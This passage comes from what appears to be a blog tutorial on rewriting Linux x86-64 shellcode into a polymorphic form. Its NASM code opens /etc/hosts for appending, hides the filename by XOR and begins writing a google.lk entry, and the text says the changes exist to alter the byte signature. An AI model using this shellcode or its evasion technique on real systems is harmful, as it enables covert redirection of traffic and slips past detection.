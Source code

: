section .text

_start:

OpenFile:
   
    ; clear RAX for later usage
    xor eax, eax

    ; 2nd argument of open: flags to use when opening
    ; the file
    ; in this case: 0x401 (O_WRONLY | O_APPEND)
    push rax
    push rax
    pop rsi
    mov si, 0x401

    ; set RAX to 2 (syscall open)
    add rax, 2
    
    ; string "ts" of "/etc/hosts"
    push WORD 0x7374

    ; string "/etc/hos" encrypted through XOR
    mov rbx, 0x3b944e4c5e433bbe
    mov rcx, 0x48fb26633d375e91
    xor rbx, rcx
    push rbx

    ; 1st argument of open: pointer to the file to open
    ; file "/etc/hosts" in this case
    mov rdi, rsp

    ; invoke open syscall
    syscall</code></pre><figcaption>Opening <code>/etc/hosts</code></figcaption></figure><p>Compared to the original shellcode, the order of the instructions is slightly different, and some of the registers used are different.</p><p>Doing so, the resulting bytes after assembling the program are going to be different.</p><p>In addition, instead of keeping the string <code>/etc/hosts</code> in clear-text, I chose to obfuscate it by <code>XOR</code>-ing it with a random key.</p><h3 id="writing-the-host-entry">Writing the host entry</h3><p>The snippet below contains the next two routines, which appends the <code>google.lk</code> entry to the file <code>/etc/hosts</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">WriteFile:

    ; save the file descriptor of the opened file in
    ; the register RDI
    push rax
    pop rdi

    ; set RAX to 1 (syscall write)
    xor eax, eax

    ; clear RDX (for later use) by means of
    ; sign-extension of RAX
    cdq

    ; 3rd argument of write syscall, number of bytes
    ; to write 
    add dl, 19
